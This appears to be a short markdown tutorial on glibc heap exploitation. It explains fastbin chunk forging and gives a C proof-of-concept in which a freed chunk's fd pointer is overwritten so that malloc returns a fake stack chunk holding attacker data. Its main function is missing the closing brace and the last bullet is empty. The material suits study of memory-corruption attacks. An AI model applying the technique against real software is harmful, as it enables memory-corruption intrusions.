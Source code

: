 ```yaml
---
layout: default
title:
tags: 

---
```

After a chunk is freed, it is inserted inside a bin, but the pointer is available in the program. If the attacker has control of this pointer via use after free or double free they can modify the linked list structure in bins and insert their own forged chunks.

`gcc fake_chunk.c -o chall`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct fake_chunk {
    size_t prev_size;
    size_t size;
    struct fake_chunk *fd;
    struct fake_chunk *bk;
    char buf[10];
};

int main() {
    char *a = malloc(10);
    printf("a ptr : %p\n", a);

    struct fake_chunk chunk;
    printf("fake chunks addr %p\n", &chunk);
    chunk.size = 0x20;
    char *data = (char*)&chunk.fd;
    strcpy(data, "Attacker's data : Hacked");

    free(a);

    *((unsigned long long*)a) = (unsigned long long)&chunk;
    printf("Freed ptr a\na now points to %p which is equal to fake chunk %p\n", a, &chunk);

    char *b = malloc(10); // returns same ptr as a

    char *victim = malloc(10);
    printf("Allocate 2 more chunks\nb ptr (same chunks as a): %p\nvictim ptr : %p\n", b, victim );
    
    printf("%s\n", victim);

    return 0;
```



```
1. a is freed:
fastbin : head->a->tail

2. a's fd pointer is changed to point to 'fake chunk':
fastbin : head->a->fake chunks -> undefined 
(fd of fake chunk will be holding attacker's data)

3. malloc request:
fastbin :  head -> forged chunk -> undefind
a is returned

4. malloc request:
fastbin : head -> undefined [fake chunk is returned ]
```


- Another `malloc` request for the fast chunk in the same bin will result in a segmentation fault. 
- 